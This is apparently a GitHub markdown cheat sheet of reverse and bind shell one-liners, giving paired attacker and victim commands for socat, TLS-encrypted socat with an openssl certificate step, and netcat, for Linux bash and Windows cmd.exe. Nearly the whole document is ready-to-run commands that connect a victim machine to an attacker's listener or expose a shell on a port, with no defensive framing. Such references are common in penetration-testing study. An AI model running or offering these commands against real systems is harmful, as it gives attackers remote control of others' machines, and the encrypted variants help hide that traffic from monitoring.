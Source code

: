 # Reverse shell
## Socat<br>
**Attacker:** `socat -d -d TCP4-LISTEN:4443 STDOUT`<br>
**Victim:** `socat TCP4:192.168.0.107:4443 EXEC:/bin/bash`<br>
**Victim windows:** `socat TCP4:192.168.0.107:4443 EXEC:'cmd.exe',pipes`<br>

## Encrypted reverse shell
Create certificate: 
```bash
openssl req -newkey rsa:2048 -nodes -keyout bind.key -x509 -days 1000 -subj '/CN=www.doston.net/O=My Company Name LTD./C=US' -out bind.crt
```
**Attacker:** `socat -d -d OPENSSL-LISTEN:4443,cert=bind.pem,verify=0,fork STDOUT`<br>
**Victim:** `socat OPENSSL:192.168.0.107:4443,verify=0 EXEC:/bin/bash`<br>
**Victim Windows:** `socat OPENSSL:192.168.0.107:4443,verify=0 EXEC:'cmd.exe',pipes`<br>

# Bind shell
## Socat
**Victim:** `socat -d -d TCP4-LISTEN:4443 EXEC:/bin/bash`<br>
**Victim Windows:**  `socat -d -d TCP4-LISTEN:4443 EXEC:'cmd.exe',pipes`<br>
**Attacker:** `socat - TCP4:VICTIMIP:4443`

## Encrypted reverse shell
From victim machine we have to cert .pem file we can generate certificate and transfer to victim.<br>
**Victim:** `socat OPENSSL-LISTEN:4443,cert=bind.pem,verify=0,fork EXEC:/bin/bash`<br>
**Victim Windows:** `socat OPENSSL-LISTEN:4443,cert=bind.pem,verify=0,fork EXEC:'cmd.exe',pipes`<br>
**Attacker:**  `socat - OPENSSL:VICTIMIP:4443,verify=0`<br>


# Netcat
## Reverse shell<br>
**Attacker:** `nc -lvnp 4444`<br>
**Victim:** `nc 192.168.0.107 4444 -e /bin/bash`<br>

## Bind shell
**Victim:** `nc -lvp 4444 -e /bin/bash`<br>
**Attacker:** `nc 192.168.0.106 4444`<br>

